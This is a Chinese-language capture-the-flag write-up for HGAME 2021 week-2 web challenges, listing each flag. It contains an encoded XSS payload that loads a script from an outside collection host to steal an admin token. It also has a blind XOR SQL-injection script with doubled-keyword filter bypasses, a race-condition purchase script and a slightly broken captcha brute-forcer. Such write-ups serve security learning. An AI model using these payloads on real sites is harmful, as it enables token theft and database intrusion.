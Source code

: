 ```yaml
---
title: HGAME-Web-Week2WP
author: Troy3e
avatar: 'https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/41414542.jpg'
authorAbout: steamID：888007034
authorDesc: Blizzard：TroyeSivan#51769
categories: 技术
comments: true
date: 2021-02-13 20:20:38
authorLink:
tags:
keywords:
description:
photos: https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/thumb-1920-1128240.png
---
```

一、LazyDogR4U

www.zip源码泄露

一个session变量覆盖

获取flag的条件：
![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210207002347.png)

继续看到flag.php包含的lazy.php

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210207002638.png)

此代码自行理解，建议本地试一试。

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210207003044.png)

    hgame{R4U~|S-4~lazy-DoG}

二、Post to zuckonit

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210208194730.png)

经典xss，要获取管理员的token访问/flag。
找一个xss平台准备接收token
payload：

    <iframe srcdoc=。。。。。。。。。。&#60;&#115;&#67;&#82;&#105;&#80;&#116;&#32;&#115;&#82;&#67;&#61;&#34;&#104;&#116;&#116;&#112;&#115;&#58;&#47;&#47;&#120;&#115;&#115;&#46;&#112;&#116;&#47;&#87;&#106;&#52;&#67;&#34;&#62;&#60;&#47;&#115;&#67;&#114;&#73;&#112;&#84;&#62;>

xss就不解释了，一是姿势非常多，二是我自己也没怎么遇到过（啥也不会）

payload准备好之后打给后台机器人就行，这里还有个验证码，python跑一个就行，网上嫖的脚本 稍微改了下（#py2）：

    import hashlib
    import random

    def encryption(chars):
         return hashlib.md5(chars).hexdigest()
    def generate():
      code = ""
      for i in range(5):
          add_num = str(random.randrange(0,9))#纯数字
          add_al = chr(random.randrange(65,91))#纯大写字母
          add_str = str(random.randrange(0,9)) + chr    (random.randrange(65,91))#数字和字母
          sj = random.choice([add_str])
          code = "".join([sj,code])
      return code
    def main():
         start = "6a506f" #指定前六位
         while True:
             strs = generate()
             print "Test %s " % strs
             if encryption(strs).startswith(start):
                 print "yes!"
                 print "[+] %s " % strs + "%s " % encryption(strs)
             break
             else:
                 print "no!"

    if __name__ == '__main__':
         main()
         print '完成！'

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210208195933.png)

拿到token，访问/flag

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210208200006.png)

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210208200142.png)

三、200OK!!

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210209120259.png)

乍一看不知道是考的啥东西，抓个包康康（burp抓https教程自行百度）：

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210209120429.png)

在js脚本里面可以看到Status是随机生成的，在这里是一个可以控制的点，大概率存在sql注入。因为sql注入是寒假任务之一，所以我这里就一步一步写的细一点。

首先测试闭合的方式，1'时无回显，1'#时有回显，所以是单引号型的。

接下来我直接试了异或注入（记得加单引号，因为后台语句大概是这样的：select '(你的输入)'）：1'^'1'^'1'#

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210209121137.png)

成功执行，存在异或注入。然后就是直接上二分法脚本了。

我先放脚本：


    import requests
    
    flag = ""
    url = "https://200ok.liki.link/server.php"
    for i in range(1,1000):
        l = 32
        h = 132
        mid = (l + h) // 2
        while(l<h):
            #payload = "1'^(ord(mid(database(),{0},1))>{1})^'1'#".format(i, mid) #库名为 week2sqli
            #payload = "1'^(ord(mid((selselectect(group_concat(table_name))frfromom(information_schema.tables)wwherehere(table_schema='week2sqli')),{0},1))>{1})^'1'#".format(i, mid) #表名为f1111111144444444444g
            #payload = "1'^(ord(mid((selselectect(group_concat(column_name))frfromom(information_schema.columns)wwherehere(table_name='f1111111144444444444g')),{0},1))>{1})^'1'#".format(i, mid) #列名为ffffff14gggggg
            payload = "1'^(ord(mid((selselectect(group_concat(ffffff14gggggg))frfromom(week2sqli.f1111111144444444444g)),{0},1))>{1})^'1'#".format(i, mid) #列名为ffffff14gggggg
    
            headers = {
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0',
                'Status': payload
            }
            r = requests.get(url=url,headers=headers)
            print(r.text)
            if 'NETWORK ERROR' in r.text:
                l = mid + 1
            else:
                h = mid
            #if (mid == 32 or mid == 132):
               # break
            mid = (l + h) // 2
        flag += chr(mid)
        print(flag)
    print(flag)

二分法脚本做buu的应该都已经遇到过了，所以就不细说了。唯一要说明的就是双写绕过以及是如何判断waf的。

在测试脚本的时候，我成功执行了第一个payload爆出了库名，于是直接进行了下一步爆表名，但是没有回显，测试payload如下：

    payload = 1'^(ord(mid((select(group_concat(table_name))from(information_schema.tables)where(table_schema='week2sqli')),1,1))>1)^'1'#

照理说表名第一位的ascii码肯定大于一，所以这里应该返回NETWORK ERROR，但是却连200 OK都没有，所以肯定是语句存在问题了，而且是与第一个payload不一样的地方。

于是得一个个地测试，这里我用了length来判断：1'^(length('select')=0)^'1'#

![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210209122031.png)

返回NETWORK ERROR，说明select长度为0，这也就表示了后台把select替换为空，所以双写绕过即可。from和where原理同上

hgame{Con9raTu1ati0n5+yoU_FXXK~Up-tH3,5Q1!!=)}

四、Liki的生日礼物
这题找了好久不知道洞在哪，但是看solve数量那么多应该是个很简单的题，果然就是个竞争。python多线程同时买26张券即可。
脚本:

    import requests
    import threading
    
    def buyswitch(n):
        url = "https://birthday.liki.link/API/?m=buy"
        data = {"amount": 26}
        headers = {
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0',
            'Cookie': 'PHPSESSID=qdacrahf4gvn2o9q8aa4vm46jb' #改成你自己的
        }
        r = requests.post(url=url,headers=headers,data=data)
        print('线程'+ str(n) + ':' + str(r.status_code) )
        print (r.text)
    
    
    def thread(n):
        threads = []
        for i in range(0, n):
            t = threading.Thread(target=buyswitch, args=(i,))
            threads.append(t)
        print(threads)
    
        for t in threads:
            t.start()
        for t in threads:
            t.join()
    
    thread(2)


![](https://cdn.jsdelivr.net/gh/ITroyeSivan/picture/blogpictures/20210208225903.png)


    hgame{L0ck_1s_TH3_S0lllut!on!!!}